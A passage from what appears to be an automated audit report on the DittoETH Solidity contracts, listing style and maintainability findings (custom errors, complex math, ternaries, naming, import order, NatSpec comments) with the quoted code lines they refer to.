ShortOrdersFacet.sol ([35-42](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ShortOrdersFacet.sol#L35-L42)):

```solidity
35:     function createLimitShort(
36:         address asset,
37:         uint80 price,
38:         uint88 ercAmount,
39:         MTypes.OrderHint[] memory orderHintArray,
40:         uint16[] memory shortHintArray,
41:         uint16 shortOrderCR
42:     ) external isNotFrozen(asset) onlyValidAsset(asset) nonReentrant {
```

</details>

## [12] Custom errors should be used rather than `revert()`/`require()`

<details>

Custom errors are available from solidity version 0.8.4. Custom errors are more easily processed in try-catch blocks, and are easier to re-use and maintain.

LibBytes.sol ([14-14](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibBytes.sol#L14-L14)):

```solidity
14:         require(slate.length % 51 == 0, "Invalid data length");
```

</details>

## [13] Consider splitting complex checks into multiple steps

<details>

Assign the expression's parts to intermediate local variables, and check against those instead.

BidOrdersFacet.sol ([106-106](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L106-L106), [317-317](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L317-L317)):

```solidity
106:         if (incomingBid.price >= lowestSell.price && (lowestSell.orderType == O.LimitAsk || lowestSell.orderType == O.LimitShort)) {

317:             } else if (prevShortOrderType != O.Cancelled && prevShortOrderType != O.Matched && prevShort.price >= b.oraclePrice) {
```

RedemptionFacet.sol ([38-38](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L38-L38)):

```solidity
38:         if (shortRecord.status == SR.Closed || shortRecord.ercDebt < minShortErc || proposer == shorter) {
```

LibOracle.sol ([60-60](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L60-L60)):

```solidity
60:                 if (roundID == 0 || price == 0 || timeStamp > block.timestamp) revert Errors.InvalidPrice();
```

LibOrders.sol ([752-752](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L752-L752)):

```solidity
752:                     if (shortOrderType == O.Cancelled || shortOrderType == O.Matched || shortOrderType == O.Uninitialized) {
```

</details>

## [14] Complex casting

<details>

Consider whether the number of casts is really necessary, or whether using a different type would be more appropriate. Alternatively, add comments to explain in detail why the casts are necessary, and any implicit reasons why the cast does not introduce an overflow.

UniswapOracleLibrary.sol ([62-62](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/UniswapOracleLibrary.sol#L62-L62)):

```solidity
62:         int24 tick = int24(tickCumulativesDelta / int32(secondsAgo));
```

</details>

## [15] Complex math should be split into multiple steps

<details>

Consider splitting long arithmetic calculations into multiple steps to improve the code readability.

There are 11 instances:

PrimaryLiquidationFacet.sol ([140-140](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L140-L140), [180-180](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L180-L180)):

```solidity
140:             m.ethDebt = m.short.ercDebt.mul(m.oraclePrice).mul(m.forcedBidPriceBuffer).mul(1 ether + m.tappFeePct + m.callerFeePct); // ethDebt accounts for forcedBidPriceBuffer and potential fees

180:             m.short.ercDebt = uint88(m.ethDebt.div(_bidPrice.mul(1 ether + m.callerFeePct + m.tappFeePct))); // @dev(safe-cast)
```

RedemptionFacet.sol ([183-183](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L183-L183), [186-187](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L186-L187), [190-191](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L190-L191), [194-195](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L194-L195), [198-198](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L198-L198), [289-291](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L289-L291)):

```solidity
183:             redeemerAssetUser.timeToDispute = protocolTime + uint32((m.mul(p.currentCR - 1.7 ether) + 3 ether) * 1 hours / 1 ether);

186:             redeemerAssetUser.timeToDispute =
187:                 protocolTime + uint32((m.mul(p.currentCR - 1.5 ether) + 1.5 ether) * 1 hours / 1 ether);

190:             redeemerAssetUser.timeToDispute =
191:                 protocolTime + uint32((m.mul(p.currentCR - 1.3 ether) + 0.75 ether) * 1 hours / 1 ether);

194:             redeemerAssetUser.timeToDispute =
195:                 protocolTime + uint32((m.mul(p.currentCR - 1.2 ether) + C.ONE_THIRD) * 1 hours / 1 ether);

198:             redeemerAssetUser.timeToDispute = protocolTime + uint32(m.mul(p.currentCR - 1.1 ether) * 1 hours / 1 ether);

289:             uint256 penaltyPct = LibOrders.min(
290:                 LibOrders.max(LibAsset.callerFeePct(d.asset), (currentProposal.CR - disputeCR).div(currentProposal.CR)), 0.33 ether
291:             );
```

LibOrders.sol ([965-965](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L965-L965)):

```solidity
965:             uint256 discountPct = max(0.01 ether, min(((savedPrice - price).div(savedPrice)), 0.04 ether));
```

UniswapOracleLibrary.sol ([38-39](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/UniswapOracleLibrary.sol#L38-L39), [42-43](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/UniswapOracleLibrary.sol#L42-L43)):

```solidity
38:             quoteAmount =
39:                 baseToken < quoteToken ? U256.mulDiv(ratioX192, baseAmount, 1 << 192) : U256.mulDiv(1 << 192, baseAmount, ratioX192);

42:             quoteAmount =
43:                 baseToken < quoteToken ? U256.mulDiv(ratioX128, baseAmount, 1 << 128) : U256.mulDiv(1 << 128, baseAmount, ratioX128);
```

</details>

## [16] Consider adding a block/deny-list

<details>

Doing so will significantly increase centralization, but will help to prevent hackers from using stolen tokens

BidOrdersFacet.sol ([20](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L20)):

```solidity
20: contract BidOrdersFacet is Modifiers {
```

BridgeRouterFacet.sol ([18](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L18)):

```solidity
18: contract BridgeRouterFacet is Modifiers {
```

ExitShortFacet.sol ([19](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L19)):

```solidity
19: contract ExitShortFacet is Modifiers {
```

PrimaryLiquidationFacet.sol ([21](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L21)):

```solidity
21: contract PrimaryLiquidationFacet is Modifiers {
```

RedemptionFacet.sol ([21](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L21)):

```solidity
21: contract RedemptionFacet is Modifiers {
```

ShortOrdersFacet.sol ([18](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ShortOrdersFacet.sol#L18)):

```solidity
18: contract ShortOrdersFacet is Modifiers {
```

</details>

## [17] Constants/Immutables redefined elsewhere

<details>

Consider defining in only one contract so that values cannot become out of sync when only one location is updated. A [cheap way](https://medium.com/coinmonks/gas-cost-of-solidity-library-functions-dbe0cedd4678) to store constants/immutables in a single location is to create an `internal constant` in a `library`. If the variable is a local cache of another contract's value, consider making the cache variable internal or private, which will require external users to query the contract with the source of truth, so that callers don't get out of sync.

ExitShortFacet.sol ([26-26](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L26-L26)):

```solidity
/// @audit Seen in contracts/facets/PrimaryLiquidationFacet.sol#28
26:     address private immutable dusd;
```

PrimaryLiquidationFacet.sol ([28-28](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L28-L28)):

```solidity
/// @audit Seen in contracts/facets/ExitShortFacet.sol#26
28:     address private immutable dusd;
```

</details>

## [18] Convert simple `if`-statements to ternary expressions

<details>

Converting some if statements to ternaries (such as `z = (a < b) ? x : y`) can make the code more concise and easier to read.

There are 8 instances:

BidOrdersFacet.sol ([320-324](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L320-L324)):

```solidity
320:                 if (b.isMovingFwd) {
321:                     Asset.startingShortId = currentShort.nextId;
322:                 } else {
323:                     Asset.startingShortId = s.shorts[asset][b.shortHintId].nextId;
324:                 }
```

LibOrders.sol ([90-94](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L90-L94), [111-115](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L111-L115), [132-136](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L132-L136), [196-202](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L196-L202), [339-348](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L339-L348), [791-795](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L791-L795), [944-948](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L944-L948)):

```solidity
90:         if (order.price > s.bids[asset][nextId].price || nextId == C.TAIL) {
91:             hintId = C.HEAD;
92:         } else {
93:             hintId = findOrderHintId(s.bids, asset, orderHintArray);
94:         }

111:         if (order.price < s.asks[asset][nextId].price || nextId == C.TAIL) {
112:             hintId = C.HEAD;
113:         } else {
114:             hintId = findOrderHintId(s.asks, asset, orderHintArray);
115:         }

132:         if (order.price < s.shorts[asset][nextId].price || nextId == C.TAIL) {
133:             hintId = C.HEAD;
134:         } else {
135:             hintId = findOrderHintId(s.shorts, asset, orderHintArray);
136:         }

196:             if (prevCanceledID != C.HEAD) {
197:                 orders[asset][C.HEAD].prevId = prevCanceledID;
198:             } else {
199:                 // BEFORE: HEAD <- (ID) <- HEAD <-> .. <-> PREV <----------> NEXT
200:                 // AFTER1: HEAD <--------- HEAD <-> .. <-> PREV <-> [ID] <-> NEXT
201:                 orders[asset][C.HEAD].prevId = C.HEAD;
202:             }

339:         if (prevHEAD != C.HEAD) {
340:             orders[asset][id].prevId = prevHEAD;
341:         } else {
342:             // if this is the first ID cancelled
343:             // HEAD.prevId needs to be HEAD
344:             // and one of the cancelled id.prevID should point to HEAD
345:             // BEFORE: HEAD <--------- HEAD <-> ... [ID]
346:             // AFTER1: HEAD <- [ID] <- HEAD <-> ...
347:             orders[asset][id].prevId = C.HEAD;
348:         }

791:         if (incomingOrder.price >= savedPrice) {
792:             orderPriceGtThreshold = (incomingOrder.price - savedPrice).div(savedPrice) > 0.005 ether;
793:         } else {
794:             orderPriceGtThreshold = (savedPrice - incomingOrder.price).div(savedPrice) > 0.005 ether;
795:         }

944:             if (prevPrice >= savedPrice) {
945:                 Asset.startingShortId = shortOrder.prevId;
946:             } else {
947:                 Asset.startingShortId = shortOrder.nextId;
948:             }
```

</details>

## [19] Contracts should each be defined in separate files

<details>

Keeping each contract in a separate file makes it easier to work with multiple people, makes the code easier to maintain, and is a common practice on most projects. The following file contains more than one contract/library/interface.

[*UniswapOracleLibrary.sol*](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/UniswapOracleLibrary.sol)

</details>

## [20] Contract name does not match its filename

<details>

According to the [Solidity Style Guide](https://docs.soliditylang.org/en/latest/style-guide.html#contract-and-library-names), contract and library names should also match their filenames.

UniswapOracleLibrary.sol ([21](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/UniswapOracleLibrary.sol#L21)):

```solidity
/// @audit Not match filename `UniswapOracleLibrary.sol`
21: library OracleLibrary {
```

</details>

## [21] `UPPER_CASE` names should be reserved for `constant`/`immutable` variables

<details>

If the variable needs to be different based on which class it comes from, a `view`/`pure` _function_ should be used instead (e.g. like [this](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/76eee35971c2541585e05cbf258510dda7b2fbc6/contracts/token/ERC20/extensions/draft-IERC20Permit.sol#L59)).

PrimaryLiquidationFacet.sol ([165](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L165), [211](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L211), [241](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L241)):

```solidity
165:         STypes.VaultUser storage TAPP = s.vaultUser[m.vault][address(this)];

211:         STypes.VaultUser storage TAPP = s.vaultUser[m.vault][address(this)];

241:         STypes.VaultUser storage TAPP = s.vaultUser[m.vault][address(this)];
```

LibBytes.sol ([24](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibBytes.sol#L24)):

```solidity
24:             uint64 CR; // bytes8
```

</details>

## [22] Contract timekeeping will break earlier than the Ethereum network itself will stop working

<details>

When a timestamp is downcast from `uint256` to `uint32`, the value will wrap in the year 2106, and the contracts will break. Other downcasts will have different endpoints. Consider whether your contract is intended to live past the size of the type being used.

LibOrders.sol ([32-32](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L32-L32)):

```solidity
32:         return uint32(block.timestamp - C.STARTING_TIME); // @dev(safe-cast)
```

</details>

## [23] Consider emitting an event at the end of the constructor

<details>

This will allow users to easily exactly pinpoint when and by whom a contract was constructed.

BridgeRouterFacet.sol ([29-29](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L29-L29)):

```solidity
29:     constructor(address _rethBridge, address _stethBridge) {
```

ExitShortFacet.sol ([28-28](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L28-L28)):

```solidity
28:     constructor(address _dusd) {
```

PrimaryLiquidationFacet.sol ([30-30](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L30-L30)):

```solidity
30:     constructor(address _dusd) {
```

</details>

## [24] Events are emitted without the sender information

<details>

When an action is triggered based on a user's action, not being able to filter based on who triggered the action makes event processing a lot more cumbersome. Including the `msg.sender` the events of these types of action will make events much more useful to end users, especially when `msg.sender` is not `tx.origin`.

RedemptionFacet.sol ([284-284](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L284-L284)):

```solidity
284:                 emit Events.DisputeRedemptionAll(d.asset, redeemer);
```

</details>

## [25] Imports could be organized more systematically

<details>

The contract's interface should be imported first, followed by each of the interfaces it uses, followed by all other files. The examples below do not follow this layout.

BidOrdersFacet.sol ([6-6](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L6-L6)):

```solidity
/// @audit Out of order with the prev import️ ⬆
6: import {IDiamond} from "interfaces/IDiamond.sol";
```

BridgeRouterFacet.sol ([6-6](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L6-L6)):

```solidity
/// @audit Out of order with the prev import️ ⬆
6: import {IBridge} from "contracts/interfaces/IBridge.sol";
```

ExitShortFacet.sol ([6-6](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L6-L6)):

```solidity
/// @audit Out of order with the prev import️ ⬆
6: import {IDiamond} from "interfaces/IDiamond.sol";
```

PrimaryLiquidationFacet.sol ([6-6](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L6-L6)):

```solidity
/// @audit Out of order with the prev import️ ⬆
6: import {IDiamond} from "interfaces/IDiamond.sol";
```

LibOracle.sol ([6-6](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L6-L6)):

```solidity
/// @audit Out of order with the prev import️ ⬆
6: import {AggregatorV3Interface} from "@chainlink/contracts/src/v0.8/interfaces/AggregatorV3Interface.sol";
```

LibOrders.sol ([6-6](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L6-L6)):

```solidity
/// @audit Out of order with the prev import️ ⬆
6: import {IDiamond} from "interfaces/IDiamond.sol";
```

</details>

## [26] Invalid NatSpec comment style

<details>

NatSpec comment in solidity should use `///` or `/* ... */` syntax.

There are 111 instances:

BidOrdersFacet.sol ([70-70](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L70-L70), [72-73](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L72-L73), [102-102](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L102-L102), [107-107](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L107-L107), [113-113](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L113-L113), [140-140](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L140-L140), [291-291](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L291-L291), [308-309](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L308-L309), [333-334](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L333-L334), [338-339](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L338-L339), [344-344](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L344-L344), [353-353](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L353-L353), [393-393](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L393-L393), [401-401](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L401-L401)):

```solidity
70:         // @dev leave empty, don't need hint for market buys

72: 
73:         // @dev update oracle in callers

102:         // @dev setting initial shortId to match "backwards" (See _shortDirectionHandler() below)

107:             // @dev if match and match price is gt .5% to saved oracle in either direction, update startingShortId

113:             // @dev no match, add to market if limit order

140:             // @dev Handles scenario when no sells left after partial fill

291:         // @dev needs to happen after updateSellOrdersOnMatch()

308: 
309:             // @dev Approximates the startingShortId after bid is fully executed

333: 
334:         // @dev match price is based on the order that was already on orderbook

338: 
339:     // @dev If neither conditions are true, it returns an empty Order struct

344:             // @dev Setting lowestSell after comparing short and ask prices

353:             // @dev Handles scenario when there are no shorts

393:             // @dev shortHintId should always be the first thing matched

401:             // @dev Only set to true if actually moving forward
```

BridgeRouterFacet.sol ([67-67](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L67-L67), [147-147](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L147-L147), [178-178](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L178-L178)):

```solidity
67:         // @dev amount after deposit might be less, if bridge takes a fee

147:     // @dev Deters attempts to take advantage of long delays between updates to the yield rate, by creating large temporary positions

178:             // @dev don't use mulU88 in rare case of overflow
```

ExitShortFacet.sol ([156-157](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L156-L157), [167-168](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L167-L168), [202-203](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L202-L203), [205-206](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L205-L206)):

```solidity
156: 
157:         // @dev Must prevent forcedBid from exitShort() matching with original shortOrder

167: 
168:         // @dev if short order was cancelled, fully exit

202: 
203:             // @dev Only allow partial exit if the CR is same or better than before

205: 
206:             // @dev collateral already subtracted in exitShort()
```

PrimaryLiquidationFacet.sol ([55-55](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L55-L55), [57-58](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L57-L58), [66-67](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L66-L67), [71-72](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L71-L72), [95-95](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L95-L95), [157-158](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L157-L158), [163-164](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L163-L164), [177-177](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L177-L177), [185-186](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L185-L186), [191-192](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L191-L192), [197-197](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L197-L197), [198-198](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L198-L198), [217-217](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L217-L217)):

```solidity
55:         // @dev TAPP partially reimburses gas fees, capped at 10 to limit arbitrary high cost

57: 
58:         // @dev Ensures SR has enough ercDebt/collateral to make caller fee worthwhile

66: 
67:         // @dev liquidate requires more up-to-date oraclePrice

71: 
72:         // @dev Can liquidate as long as CR is low enough

95:     // @dev startingShortId is updated via updateOracleAndStartingShortViaTimeBidOnly() prior to call

157: 
158:         // @dev Provide higher price to better ensure it can fully fill the liquidation

163: 
164:         // @dev Increase ethEscrowed by shorter's full collateral for forced bid

177:             // @dev Max ethDebt can only be the ethEscrowed in the TAPP

185: 
186:         // @dev Liquidation contract will be the caller. Virtual accounting done later for shorter or TAPP

191: 
192:         // @dev virtually burning the repurchased debt

197:         // @dev manually setting basefee to 1,000,000 in foundry.toml;

198:         // @dev By basing gasFee off of baseFee instead of priority, adversaries are prevent from draining the TAPP

217:         // @dev TAPP already received the gasFee for being the forcedBid caller. tappFee nets out.
```

RedemptionFacet.sol ([36-36](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L36-L36), [37-37](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L37-L37), [71-72](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L71-L72), [82-82](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L82-L82), [91-92](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L91-L92), [94-95](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L94-L95), [100-100](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L100-L100), [107-108](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L107-L108), [109-109](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L109-L109), [126-127](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L126-L127), [144-145](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L144-L145), [156-156](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L156-L156), 